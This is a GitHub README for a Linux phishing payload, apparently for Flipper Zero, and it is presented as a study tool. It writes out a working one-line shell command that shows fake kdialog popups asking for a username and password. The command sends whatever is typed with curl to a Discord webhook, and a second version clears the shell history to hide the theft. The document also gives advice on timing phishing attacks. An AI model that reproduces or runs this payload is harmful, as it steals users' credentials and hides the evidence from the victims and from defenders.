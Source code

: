  
# Standard Phishing Payload Using kdialog - Linux ✅

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Phishing

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

Opens a shell, get the data by a popup, send the input to a Discord webhook (or whatever you want to use for the exfiltration).

## Getting Started

### Dependencies

* Internet Connection for the Exfiltration

### Settings

* Set the Discord webhook
* Set the payload as you want

### cURL Command

With this payload you can send a post message using cURL shell command line to the webhook or whatever you choose for the exfiltration. You should replace the tag *\<message>* with the user input.

- `curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(<message>)\"}" $WEBHOOK_URL);`

### kdialog - Popup command

KDialog can be used to show nice dialog boxes from shell scripts. You can't acquire multiple input in one popup, so you should use multiple popup. You can set the title, the message, the input type and so and so on...

- Simple message popup: `kdialog --title "<replace_with_your_title>" --msgbox "<replace_with_your_message>"; `
- Plaintext input popup (i.e. Username): `kdialog --title "<input_title>" --inputbox "<input_type_title>";`
- Hiddentext input popup (i.e. Password): `kdialog --title "<input_title>" --password "<input_type_title>" --default "password";`

### The Payload

The payload will merge the cURL command with the kdialog popup output (so the user input) as the following command...

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL);
```

You can put into the payload something that will clear the last shell history closing the shell at the end of the execution, adding this line `history -c; exit;`

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL); history -c; exit;
```

### FAQs

- Why put the entire payload in one line?
Generally it is recommended to divide the various steps at different times by dividing each command with some DELAY, in this case it is not recommended because phishing-type cyber attacks often tend to take a long time. How can you tell how long a user should take to enter their data? What if he doesn't remember his email? It is important to consider the slow factor, which, in theory, can take really long and in any case cannot be dynamically predicted.

- Why is used the 'cyber-attack' word?
This payload is intended to be a working tool for performing cybersecurity analysis and is not intended to harm malicious users in any way. This term is used for simplicity in speaking but is really meant to be a study tool that can be worked on.